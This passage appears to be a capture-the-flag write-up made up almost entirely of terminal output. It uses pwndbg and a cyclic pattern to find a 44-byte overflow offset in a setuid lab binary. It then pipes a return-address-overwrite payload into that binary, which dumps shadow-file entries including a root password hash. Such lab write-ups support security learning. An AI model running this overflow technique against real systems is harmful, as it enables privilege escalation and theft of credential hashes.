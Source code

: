 ````

which gdb
pwndbg: loaded 178 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from /opt/secret/root...(no debugging symbols found)...done.
pwndbg> 
pwndbg> 
pwndbg> which gdb
Undefined command: "which".  Try "help".
pwndbg> r < <(cyclic 50)
Starting program: /opt/secret/root < <(cyclic 50)

00:0000│ esp  0xff881880 ◂— 0xf700616d /* 'ma' */
01:0004│      0xff881884 —▸ 0xff8818a0 ◂— 0x1
02:0008│      0xff881888 ◂— 0x0
03:000c│      0xff88188c —▸ 0xf75a6637 (__libc_start_main+247) ◂— add    esp, 0x10
04:0010│      0xff881890 —▸ 0xf7740000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
... ↓
06:0018│      0xff881898 ◂— 0x0
07:001c│      0xff88189c —▸ 0xf75a6637 (__libc_start_main+247) ◂— add    esp, 0x10
────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────
 ► f 0 6161616c
   f 1 f700616d
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
Program received signal SIGSEGV (fault address 0x6161616c)
pwndbg> 
pwndbg> which gdb
Undefined command: "which".  Try "help".
pwndbg> ls
linpeas.sh  pwndbg  systemd-private-7a2ffe9d4a324ce2bf9b1ba77cacd137-systemd-timesyncd.service-MYD8Uu  tmux-1002  VMwareDnD
pwndbg> cyclic -l 0x6161616c
44

````

# binary Exploitation
```
pingu@ubuntu:/tmp$ python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˄
pingu@ubuntu:/tmp$ python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˄
pingu@ubuntu:/tmp$ python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
```